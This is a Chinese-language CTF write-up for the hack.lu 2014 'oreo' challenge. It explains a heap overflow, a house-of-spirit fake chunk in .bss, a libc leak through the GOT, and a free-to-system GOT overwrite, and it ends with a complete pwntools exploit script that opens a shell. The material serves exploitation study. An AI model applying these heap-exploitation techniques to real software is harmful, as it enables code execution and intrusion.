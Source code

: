 ```yaml
---
title: hack.lu ctf 2014 oreo
categories:
  - pwn
tags: house-of-spirit
published: true
---
```


# Introduction

学习 [house_of_spirit](https://github.com/shellphish/how2heap/blob/master/house_of_spirit.c)

**[oreo](https://github.com/ctfs/write-ups-2014/tree/master/hack-lu-ctf-2014/oreo)**: 
oreo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=f591eececd05c63140b9d658578aea6c24450f8b, stripped

{% highlight bash %}
checksec oreo

    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

{% endhighlight %}

程序有5个主要函数：

1）添加，分配固定大小的堆内存，输入 Rifle name 时有 0x19 字节的溢出。

2）打印，输出堆内存里的值。

3）删除，在后续的添加中当前的 chunk 地址会存放在新的 chunk 的末尾四个字节处，free 当前 chunk 后继续 free 当前 chunk 的末尾四个字节指向的地址。

4）写入，在指定的地址写入上限 0x80 字节长度的值，指定的地址存放在全局指针变量中。

5）输出添加次数和删除次数两个全局变量的值，还打印全局指针变量指向地址的值。

# Leak Libc

要触发漏洞需要足够的空间来伪造 chunk，而程序每个函数的可影响的栈空间大小都不足以伪造出两个相邻 chunk。在经过一番观察后发现程序的 bss 段可以用来伪造两个相邻 chunk，添加 0x41 次 rifle 使得添加次数全局变量的值为 0x41，伪造了第一个 chunk 头，再通过第4个函数写入下个 chunk 的 chunk size。

```
gdb-peda$ x/32xw 0x804a2a0
0x804a2a0:	0x00000000	0x00000041	0x0804a2c0	0x00000000	-> chunk1
0x804a2b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a2c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a2d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a2e0:	0x00000000	0x00001234	0x0000000a	0x00000000	-> chunk2
0x804a2f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a300:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a310:	0x00000000	0x00000000	0x00000000	0x00000000
```

而利用添加函数输入 rifle name 的值可以设定 chunk 的最后四个字节为伪造的 chunk 地址。

```
0x9b39410:	0x00000000	0x00000041	0x00003034	0x00000000
0x9b39420:	0x00000000	0x00000000	0x00000000	0x00000000
0x9b39430:	0x00000000	0x00000000	0x00000000	0x00000000
0x9b39440:	0x00000000	0x00000000	0x00000000	0x0804a2a8	-> fake chunk address
```

成功将其 free 后，在调用添加函数获得 fake chunk 的控制，进而改写全局变量指针的值从而实现任意地址写。

配合程序自身函数可以将 got 表中的值打印出来

```
payload = p32(0x804a288)
add("\n", payload+"\n")

payload = p32(sscanf_got)
lmsg(payload + "\n")

show()
```

# Exploit

既然可以写任意地址，那么写函数 got 表为 system 地址即可，[exp](https://github.com/0x3f97/pwn/blob/master/hack-lu-ctf-2014-oreo/exp.py) 如下：

```python
#!/usr/bin/env python

from pwn import *
import sys

context.log_level = "debug"

elf = "./oreo"

p = process(elf)

free_got = 0x804a238
puts_plt = 0x80484b0
sscanf_got = 0x804a258
free_off = 0x71470
system_off = 0x3ada0
bin_sh_off = 0x15b9ab
fgets_off = 0x5e150

def add(n, des):
    p.sendline("1")
    p.send(n)
    p.send(des)

def show():
    p.sendline("2")

def order():
    p.sendline("3")

def lmsg(s):
    p.sendline("4")
    p.send(s)

def status():
    p.sendline("5")


for i in range(0x40):
    add(str(i)+"\n", str(i)+"\n")

payload = p8(0)*0x1b
payload += p32(0x804a2a8)
add(payload+"\n", "40\n")

payload = p8(0)*0x24
payload += p32(0x1234)
lmsg(payload+"\n")

order()

payload = p32(0x804a288)
add("\n", payload+"\n")

#gdb.attach(p)
payload = p32(sscanf_got)
payload += p32(0)*6
payload += p32(0x41)
payload += p32(0x804a288)
lmsg(payload+"\n")

show()
p.recvuntil("Description: ")
libc_base = u32(p.recv(4).strip().ljust(4, "\x00"))-0x5c4c0
log.info("libc_base: " + hex(libc_base))

system_addr = libc_base + system_off
bin_sh_addr = libc_base + bin_sh_off
fgets_addr = libc_base + fgets_off

payload = p32(bin_sh_addr)
payload += p32(0)*6
payload += p32(0x41)
payload += p32(free_got)
lmsg(payload+"\n")

payload = p32(system_addr)
payload += p32(fgets_addr)
lmsg(payload+"\n")

#gdb.attach(p)
order()

p.interactive()
```
